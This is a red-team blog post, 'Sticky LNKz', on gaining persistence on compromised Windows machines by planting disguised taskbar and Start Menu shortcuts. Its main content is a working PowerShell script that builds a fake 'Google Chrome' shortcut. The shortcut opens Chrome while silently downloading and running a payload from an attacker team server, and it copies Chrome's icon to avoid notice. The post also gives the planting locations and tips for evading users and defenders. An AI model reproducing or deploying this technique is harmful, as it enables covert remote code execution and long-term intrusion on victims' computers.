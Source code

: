```yaml
---
layout: post
title: Sticky LNKz
date: 2017-08-15
excerpt: "A post about User-Driven persistence using common taskbar and startmenu shortcuts"
tags: [persistence, redteam, cradles, payloads]
comments: false
---
```

# Intro
As a user in a corporate environment, what is one of the first things you do? After you get some coffee and have a chat with your co-workers about the latest news or some semi-personal event from the night before.. you log in. A good blue team will be looking to make sure when you log in there isn't some type of malware set up with persistence to run before you even hear that catchy windows logon tune. With programs like <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns" title="autoruns">**autoruns**</a> and well crafted detection methods from just about every security vendor, it is very likely a redteamer will get caught trying to drop persistence in the known and obvious locations.

## Disclaimer
As I introduce this concept, I apologize if anyone has already explored this method and might think I am blatantly plagurizing their work, I swear it is not my style. 

## User-Drive Persistence
I've seen several different methods of persistence that redteamers (and blackhats) often use to repop a shell on a device that gets shutdown everyday and rebooted the next morning. Senspost's <a href="https://www.twitter.com/_staaldraad">@_staaldraad</a> has a handy tool I was introduced to at Blackhat called <a href="https://github.com/sensepost/ruler">**"Ruler"**</a>. The original concept was once you had credz you could set up an outlook rule to pop a shell whenever needed by sending a triggered email that would delete itself and run a payload via an external webdev share. Genius!
### Subj: "bSpence love his shells"

One of the major limitations to this type of persistence is that you have to rely on some user interaction to generate your trigger and get the shell (ie. the user has to start an application). However, if you pick an application like Outlook or other commonly used standard applications, this can be a nice way to hide your shell popping payloads in plain sight, hidden from the user, and even better, hidden from the blue team.

I recently had an engagement with @SpecterOps in which @bluscreenofjeff and @enigma0x3 introduced to me some tradecraft payload cradles in which they use .LNK and .HTA files as links in their phishing emails to get initial breach shells. I don't like to name drop, but I'd be kind of a jerk without mentioning someone like @SubTee who's been the cradle Jedi master for a year or two now. Anyways, after playing with the cradles and thinking about how my blue team might react something slapped me in the face as I looked at the taskbar.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/taskbar.png"></a>
</figure>
Ex: "My Current Taskbar Situation"
{: .mycenter}
## Introducing Sticky LNKz
The epiphany I had was that users often customize their user experience by creating Start Menu and Taskbar shortcuts to execute their favorited applications. The other thing users do is create desktop shortcuts, but I will talk about why the Start Menu and Taskbar are much more covert friendly. These shortcuts get saved on the filesystem as .LNK files since that is essentially what a shortcut is, a link to an executable.

## The Payload
Credit to @enigma0x3 for the original powershell LNK generation, below I've added a few things to retrofit this script for taskbar/startmenu usage. In the example below we will be using Google Chrome as a shortcut. Keep in mind this is post-exploitation work to establish User-Based Persistence.
{% highlight html %}
$LNKName = "C:\Users\<YOUR_USER>\Desktop\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what it looks like:
{: .mycenter}
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/google_lnkz.png"></a>
</figure>
Ex: "Google Chrome.lnk"
{: .mycenter}
## Snippet Step-by-Step
The LNKName identifies the save location of the lnk you're generating. You want this to be named exactly like the a taskbar or start menu lnk might look. The BinaryPath establishes powershell.exe as the executable to run instead of the path to chrome.exe
{% highlight html %}
$LNKName = "C:\<DESIRED_LOCATION>\Google Chrome.lnk"
$BinaryPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
{% endhighlight %}
The first part of the command execution here is to start chrome.exe so the user gets an actual chrome popup and doesn't get suspicious that their shortcut didn't start as intended. This can be tricky and works depending on $PATH, but I've noticed putting the full path to the binary usually craps out the script. The second piece is your standard arguments to start a proxy aware shell using a CobaltStrike powershell web drive-by script that you've already hosted on your teamserver.
{% highlight html %}
$Arguments = "-nop -c `Start-Process chrome.exe; `$wc = New-Object System.Net.Webclient; `$wc.Headers.Add('User-Agent','Mozilla/5.0 (Windows NT 6.1; WOW64;Trident/7.0; AS; rv:11.0) Like Gecko'); `$wc.proxy= [System.Net.WebRequest]::DefaultWebProxy; `$wc.proxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; IEX (`$wc.downloadstring('http://TEAMSERVER:80/URI'))"
{% endhighlight %}
The following are required to create the lnk and populate it with the information you've already defined.
{% highlight html %}
$obj = New-Object -COM WScript.Shell
$link = $obj.CreateShortcut($LNKName)
$link.WindowStyle = '7'
$link.TargetPath = $BinaryPath
$link.Arguments = $Arguments
{% endhighlight %}
The IconLocation here is essential to our .lnk remaining covert and not tipping off the user. Notice after the full path the ", 0". This tells the lnk to take the first icon populated in the chrome.exe binary. You can explore this manually by creating shortcuts and changing the icons, but I've pretty much seen 0 as the common choice. 
{% highlight html %}
$link.IconLocation = "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe, 0";
$link.Save()
{% endhighlight %}
Here is what browsing toe chrome.exe for an icon selection looks like:
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/icon_path.png"></a>
</figure> 
Ex: "Icons for Chrome.exe"
{: .mycenter}
## Save Location
You really have two options when generating the link. Locally on your lab machine and then uploading it to the below locations on the filesystem, or be bold and upload it directly to the compromised host in the start menu or taskbar locations.
## Task Bar
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar
{% endhighlight %}
## Start Menu
Windows 10/7
{% highlight html %}
%AppData%\Microsoft\Windows\Start Menu
{% endhighlight %}
## Why No Desktop Love?
As I indicated before you *could* generate a lnk and put it on the user's desktop, but there is some OPSEC considerations that tip off the user. When hovering over the Desktop shortcut the "Location:<PATH_TO_EXECUTABLE>" is shown on hover. This will get you busted pretty quick if the user is paying attention. The taskbar and startmenu location for some reason do not have the same hovers, so the user will not really be tipped off unless he goes exploring the file locations above.
<figure>
	<a href="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"><img src="https://bspence7337.github.io/bSpenceSecurity/assets/img/location_hover.png"></a>
</figure> 
Ex: "Location: powershell"
{: .mycenter} 
## To-Do's
I'd really like to eventually have the time to put this in a Cobaltstrike Aggressor script. I've already started a preliminary script, but I've been a bit stuck on how to approach it. I figured I could use some common shortcut types like Google, IE, Outlook, etc.. but having aggressor tie it to a hosted payload has given me some problems. I know it can be done, but I just haven't had the time to dig into it.
The other nice feature I might do is create a powershell script with user-defined input that will generate the link of your choice, but again, this is on my list of things to do.

## Summary
There are many ways to establish persistence and while the most desired persistence is automated without user intervention sometimes you have to use covert methods like I outlined in this post. I realize it isn't the most sophisticated, but in a pinch it is handy tradecraft like this that might get you out of a bind if defenders start to crack down on known persistence locations. With a little situational awareness and some well placed .lnk's you might be able to sneak by even the best defenders.

If anyone has any comment or feedback regarding this post please look me up on twitter @bSpence7337. Thanks!
